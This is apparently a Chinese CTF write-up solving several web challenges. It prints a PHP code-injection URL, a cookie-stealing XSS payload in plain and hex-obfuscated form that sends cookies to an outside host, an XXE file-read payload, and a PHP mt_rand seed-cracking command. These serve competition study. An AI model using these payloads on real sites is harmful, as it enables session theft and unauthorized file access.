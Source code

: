 # WEB

## web

re.php 划重点

```php
<?php
    $str = addslashes($_GET['shell']); 
    file_put_contents($path, "<?php \$shell='try to use this!';?>"); 
    $file = preg_replace('|\$shell=\'.*\';|',"\$shell='$str';",file_get_contents($path)); 
    file_put_contents($path,$file); 

    @print_r("<a href='$path'>$path</a></br>"); 
    @print_r(htmlspecialchars($file)); 
?> 
```

根据re.php的源代码，源码对于GET来的shell进行了addslashes，但是其实php自己本身就会对所有请求提交上来的变量进行addslashes操作，导致的结果就是，双次addslashes，反而将首次的addslashes无效化了。（笑）

于是构造字符串，即可拿到flag。

> http://10.105.42.5:44445/re.php?shell=../flag.php\%27;$tass=file_get_contents(substr($shell,0,11));%20var_dump($tass);%20//

-----

## SimpleShop

Reset password 会返回对应用户的 sid ，使用这个 sid 替换购买页面中的 sid 后，购买 flag 即可。

## SimpleShop2

在simple shop 1 中购买 talk to manager，得到一个 feedback 页面（get md5 应该是为了防止暴力注入 www 最开始不知道我还去查了半天这个开头的 md5 有啥）

### XSS

因为说manager will read it，判断这个是个XSS。根据尝试发现过滤了 ` . / script` 等文本

`foo.bar` 在 js 里大部分可以用 `foo["bar"]` 访问，这就好办多了不是么 23333

构造 xss 字符串

> <img src=x onerror=this.src='http://tsctf.henryzhao.org/a.jpg?c='+document["cookie"]>

对文字进行 encode

> <img src=x onerror=this["\x73\x72\x63"]='\x68\x74\x74\x70\x3a\x2f\x2f\x74\x73\x63\x74\x66\x2e\x68\x65\x6e\x72\x79\x7a\x68\x61\x6f\x2e\x6f\x72\x67\x2f\x61\x2e\x6a\x70\x67\x3f\x63\x3d'+window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x63\x6f\x6f\x6b\x69\x65"]>

成功拿到一个 PHPSESSIONID 的 cookie

### XXE

伪造cookie之后发现主页出现了一个 manager，随便提交点什么发现提交的时候是个 dom。经过询问谷歌老师，知道有个 XXE 漏洞，处理 xml 的时候可以越权访问奇怪的东西。

构造XML，成功读取到flag

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:////aaasssddd/flag" >
]>
<note><title>123</title><content>&xxe;</content></note>
```

-----

## 随机数

源代码审计，使用 `mt_srand()` 生成一个随机数种子，然后存下来第一个生成的随机数，再把第二个随机数的 md5 打出来。

反查 md5 后，使用 _php_mt_seed_ 跳过第一个随机数，按照第二个随机数去跑种子即可。

> $ OMP_NUM_THREADS=4 ./php_mt_seed 0 0 0 0 324679948

根据跑出来的种子，生成两个随机数，再用第一个的 md5 去访问即可。用 _action_ 去执行 `flag()` 函数。
这个时候，没有执行 `getkey()` ，所以那几个参数都是 `undefined` ，并且 `undefined == undefined` （笑）

（这不是 bug ，是 feature ！）
